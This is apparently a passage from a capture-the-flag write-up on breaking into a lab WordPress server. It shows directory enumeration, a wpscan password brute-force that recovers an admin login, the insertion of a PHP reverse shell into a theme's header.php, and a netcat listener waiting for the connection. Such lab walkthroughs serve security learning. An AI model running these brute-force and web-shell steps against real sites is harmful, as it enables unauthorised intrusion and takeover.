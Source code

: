 ```bash
/server-status?full (Status: 403)
/server-status?full&showmodulestate (Status: 403)
/license.txt (Status: 200)
/.hta (Status: 403)
/xmlrpc.php (Status: 200)
/.httpd.conf (Status: 403)
/wp-config.php (Status: 200)
/./secret/.. (Status: 301)
```

```bash
$ curl http://10.10.204.183/hidden/
<!DOCTYPE html>
<html>
<head>
<meta http-equiv=”Content-Type” content=”text/html; charset=UTF-8″ />
<title>Hidden Place</title>
</head>
<body>
<div align="center">
<h1>U-R-G-E-N-T</h1>
<h2>C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip</h2>
</div>
</body>
</html> 
```

### Wordpress user bruteforce

```bash
$ wpscan --url http://10.10.204.183/ -U c0ldd,hugo,philip -P /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Thanks to Wpscan, we now have a valid access to wordpress

![Wordpress admin page](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10_22-17-16.png)

## Server access

### Server access: www-data user

Let's copy the content of a PHP reverse shell `/usr/share/webshells/php/php-reverse-shell.php` into the `header.php` of the current theme

![Wordpress edit header page](https://github.com/clobee/images/blob/main/Screenshot_2021-01-11_00-25-49.png)

Let's start netcat in our Kali 

```bash
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```
